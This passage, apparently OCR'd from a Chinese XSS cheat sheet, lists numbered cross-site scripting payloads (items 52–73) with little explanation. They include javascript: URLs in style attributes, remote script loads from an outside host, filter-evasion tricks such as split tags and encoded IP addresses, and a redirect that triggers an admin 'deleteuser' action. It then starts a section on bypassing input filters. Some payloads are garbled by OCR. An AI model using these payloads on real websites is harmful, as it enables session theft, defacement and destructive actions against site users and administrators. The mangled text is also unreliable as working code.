 ```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><ACLASS=XSS></A>
(52)IMGSTYLE方式
exppression(alert("XSS"))'>
(53)STYLEbackground
<STYLE><STYLEtype="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
(54)BASE
(55)EMBED标签,你可以嵌入FLASH,其中包涵XSS
(56)在flash中使用ActionScrpt可以混进你XSS的代码
a="get";b="URL(\"";c="javascript:";d="alert('XSS');\")";eval_r(a+b+c+d);
(57)XMLnamespace.HTC文件必须和你的XSS载体在一台服务器上
<HTMLxmlns:xss><?importnamespace="xss"
implementation="http://3w.org/XSS/xss.htc"><xss:xss>XSS</xss:xss></HTML>
(58)如果过滤了你的JS你可以在图片里添加JS代码来利用
(59)IMG嵌入式命令,可执行任意命令
(60)IMG嵌入式命令(a.jpg在同服务器)
Redirect302/a.jpghttp://www.XXX.com/admin.asp&deleteuser
(61)绕符号过滤
(62)<SCRIPT=">"SRC="http://3w.org/xss.js"></SCRIPT>
(63)<SCRIPTa=">""SRC="http://3w.org/xss.js"></SCRIPT>
(64)<SCRIPT"a='>'"SRC="http://3w.org/xss.js"></SCRIPT>
(65)<SCRIPTa=`>`SRC="http://3w.org/xss.js"></SCRIPT>
(66)12-7-1T00LS-PoweredbyDiscuz!Board
https://www.a.com/viewthread.php?action=printable&tid=152674/6<SCRIPTa=">'>"
SRC="http://3w.org/xss.js"></SCRIPT>
(67)<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://3w.org/xss.js"></SCRIPT>
(68)URL绕行
<AHREF="http://127.0.0.1/">XSS</A>
(69)URL编码
<AHREF="http://3w.org">XSS</A>
(70)IP十进制
<AHREF="http://3232235521″>XSS</A>
(71)IP十六进制
<AHREF="http://0xc0.0xa8.0×00.0×01″>XSS</A>
(72)IP八进制
<AHREF="http://0300.0250.0000.0001″>XSS</A>
(73)混合编码
<AHREF="http://66.000146.0×7.147/"">XSS</A>
节省[http:]
<AHREF="//www.google.com/">XSS</A>
节省[www]
<AHREF="http://google.com/">XSS</A>
绝对点绝对DNS
<AHREF="http://www.google.com./">XSS</A>
javascript链接
<AHREF="javascript:document.location='http://www.google.com/'">XSS</A>
```  
  
### 限制绕过  
  
实际应用中web程序往往会通过一些过滤规则来防止代有恶意代码的用户输入被显示。当上述代码（常见标签中的代码）被注入到输入框或者URL参数中时，可能会成功也可能会失败，如果失败了，并不意味着网站不存在XSS漏洞，需要对其进行绕过等方式发掘安全漏洞。这里，给大家总结一些XSS绕过方法。  
  